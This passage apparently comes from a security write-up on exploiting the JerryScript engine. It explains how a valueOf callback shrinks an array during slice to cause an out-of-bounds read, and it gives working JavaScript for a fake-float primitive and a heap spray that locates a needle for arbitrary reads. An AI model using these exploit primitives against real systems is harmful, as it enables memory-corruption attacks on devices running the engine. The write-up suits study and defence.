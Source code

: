 [1] a.slice is called.  
[2] `start` is calculated. => `end` = 12  
[3] `end` is forcefully converted to a number by calling the valueOf function. First `a` is shrinked to length 5, and an `ArrayBuffer` is allocated right next to the buffer of `a`. (The numbers here are based on an analysis of the jmem heap allocator to reclaim space right next to `a`) Then, we write a value `(addr << 3) | 3` at the `ArrayBuffer`. Then it returns 13. => `end` = 13  
[4] Actual slicing is executed, but it reads out of bounds, returning our forged value which is `(addr << 3) | 3`. `addr<<3` is the compressed pointer, and `3` is our object type.  

Similarly we can create a fakeFloat primitive. In JerryScript floats are like pointers, which reveal the IEEE 64bit FP representation when dereferenced. So they can be used for arbitrary read on the heap. 

```javascript
function fakeFloat64(addr) {
    var a = [];
    for (var i = 0; i < 100; i++) {
        a.push(0);
    }
    
    var b = a.slice(12, {valueOf: function() {
            a.length = 5;
            r = new ArrayBuffer(320);
            var w = new Uint32Array(r);
            w[0] = (addr << 3 ) | 2;
            return 13;
        }
    });
    return b.pop()
}
```

## Heap spray
The heap space of JerryScript is really small, only 512*1024 bytes. Therefore a heap spray attack can be reliable. Also, I used the haystack-needle strategy so that when a needle is found, it can be used as a deterministic fakeObj primitive. The code for this is here. 

```javascript
var needle = new Uint8Array(8);
var needle_f = new Float64Array(needle.buffer);

var haystack = new Uint8Array(0x40000);

for (var i = 0; i < haystack.length; i+= 8) {
    needle_f[0] = i;
    haystack.set(needle, i);
}

let a = fakeFloat64(0x5000);
let find_index = Math.floor(a);
if (find_index >= 0x40000) {
    print("[-] Exploit failed: heapspray needle not found");
    throw "fail";
}
```
